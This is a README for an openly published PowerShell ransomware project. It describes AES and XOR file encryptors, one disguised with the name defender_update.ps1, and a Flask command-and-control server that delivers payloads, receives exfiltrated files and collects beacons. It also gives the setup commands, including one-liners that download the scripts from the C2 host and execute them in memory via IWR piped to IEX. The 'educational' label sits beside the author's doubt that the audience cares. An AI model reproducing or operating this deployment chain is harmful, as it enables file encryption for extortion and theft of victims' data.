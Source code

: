 <!-- display-subdirectories: false -->

# PowerShell-Ransomware

AES-256 and XOR-based PowerShell ransomware with customizability.

## Purpose
Both **0xLock** and **Rox** are meant for educational project demonstrating file encryption with Command-and-Control (C2) server integration. It simulates ransomware-like behavior using AES and XOR encryption, including file exfiltration and C2 communication, for learning purposes only.

⚠️ **Warning**: This project is for educational use only. The encryption methods (AES and XOR) are not secure for production due to simplified key management and inherent weaknesses (especially XOR). Not sure if my target audience cares...

## Description
This repository contains:
- **`heartbeat.ps1`**: A PowerShell script that encrypts files using AES-256, exfiltrates files (<1GB) to a C2 server, and beacons back with results.
- **`defender_update.ps1`**: A PowerShell script that encrypts files using xor, exfiltrates files to a C2 server, and beacons back with results.
- **`server.py`**: A Flask-based C2 server that handles payload delivery, file exfiltration, system info, file indexing, and beaconing.
- **`clean_exfil.sh`**: A bash script to purge all contents in `exfiltrated_files` and `exfiltrated_data` directory.

Files are encrypted in test directories (`C:\Temp\heartbeatDemo` for AES, `C:\Temp\roxDemo` for XOR) to avoid affecting real data.

## Usage

### Prerequisites
- **PowerShell Scripts**: Windows with PowerShell 5.1+.
- **Flask Server**: Python 3.6+, Flask (`pip install flask`), and network access (default: `10.0.0.128:80`).

### Setup

1. **Clone the Repository**:

```bash
git clone https://github.com/0x4F776C/PowerShell-Ransomware.git
cd PowerShell-Ransomware
```

2. **Run the Flask Server**:

```bash
pip install flask
python server.py
```

- If testing locally, update `$c2Server`` in both scripts to `127.0.0.1:5000`` and run the server with `app.run(host='0.0.0.0', port=5000, debug=True)``.

3. Run the PowerShell Scripts:

- For AES:

```powershell
IWR -Uri "http://<server ip>/files/heartbeat.ps1" -UseBasicParsing | IEX
```

- For XOR:

```powershell
IWR -Uri "http://<server ip>/files/defender_update.ps1" -UseBasicParsing | IEX
```

- Results: Encrypted files (`.0xlock` for AES, `.rox` for XOR), exfiltrated files in `exfiltrated_files/`, and a ransom note in the test directory.

### Future Plans

- Add more encryption methods (e.g., RSA for key exchange).
- Improve key management for the AES script (e.g., secure key storage).
- Enhance the C2 server with a web interface for monitoring.
- Include more robust error handling and logging.
- Add unit tests for both scripts and the server.

### License
This project is licensed under the MIT License. See the file for details.
Happy experimenting! 🚀